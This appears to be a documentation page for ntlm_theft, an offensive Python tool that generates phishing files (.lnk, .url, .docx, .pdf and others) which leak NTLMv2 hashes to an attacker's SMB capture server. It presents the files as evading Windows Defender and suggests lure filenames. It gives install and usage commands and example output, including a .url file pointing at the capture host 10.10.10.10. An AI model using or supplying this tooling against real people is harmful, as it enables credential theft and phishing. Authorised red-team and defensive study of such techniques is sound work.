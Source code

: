 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

* Browse to Folder Containing
  * .url – via URL field
  * .url – via ICONFILE field
  * .lnk - via icon_location field
  * .scf – via ICONFILE field (Not Working on Latest Windows)
  * autorun.inf via OPEN field (Not Working on Latest Windows)
  * desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
  * .xml – via Microsoft Word external stylesheet
  * .xml – via Microsoft Word includepicture field
  * .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  * .docx – via Microsoft Word includepicture field
  * .docx – via Microsoft Word external template
  * .docx – via Microsoft Word frameset webSettings
  * .xlsx - via Microsoft Excel external cell
  * .wax - via Windows Media Player playlist (Better, primary open)
  * .asx – via Windows Media Player playlist (Better, primary open)
  * .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  * .jnlp – via Java external jar
  * .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
  * .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
  * .txt – formatted link to paste into Zoom chat

## Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

## Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

## Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

## Examples

### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

## URL List

* [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
